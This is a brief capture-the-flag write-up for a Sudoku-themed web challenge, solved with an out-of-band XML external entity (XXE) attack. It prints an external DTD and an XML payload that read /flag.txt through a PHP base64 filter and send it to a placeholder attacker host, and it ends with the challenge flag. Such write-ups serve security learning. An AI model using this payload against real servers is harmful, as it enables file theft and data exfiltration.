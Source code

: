 # Puzzling

Solved by: @yappare

## Question:
Everybody needs a little break from hacking from time to time. Why not enjoy this simple Sudoku puzzle? Surely it's not hiding anything else...right?


## Solution:
`external.dtd`
```
<!ENTITY % eval "<!ENTITY exfil SYSTEM 'http://our-host or collab/dtd.xml?%data;'>"> %eval;
```
payload
```
<?xml version="1.0" ?>
<!DOCTYPE r [
 <!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/flag.txt">
 <!ENTITY % oob SYSTEM "http://our-host-where-external-dtd-is/external.dtd">
 %oob;
]> 
<root> &exfil; </root>
```

**Flag:** `sun{4_gr1d_full_0f_3nt1ti3s}`
